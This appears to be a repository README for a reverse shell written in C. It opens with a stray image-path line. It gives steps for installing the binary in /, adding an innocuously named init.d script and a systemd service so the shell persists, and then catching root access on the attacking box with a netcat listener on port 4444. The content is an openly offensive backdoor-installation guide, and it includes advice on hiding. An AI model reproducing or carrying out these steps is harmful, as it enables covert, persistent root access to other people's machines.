 # reverse-shell
## DO NOT RUN THIS ON YOUR OWN COMPUTER UNLESS YOU WANT TO BE PWNED
A reverse shell written in c

## Installation and activation
First, download this in the / directory, compile a binary, then mv a.out /
Second, create a .sh file in /etc/init.d/ and name it something not suspicious
Then, in /etc/systemd/system create a .service file (example included)
$systemctl enable foo.service

## On the attacking box
$nc -nvlp 4444
Wait for connection to pop
Have root

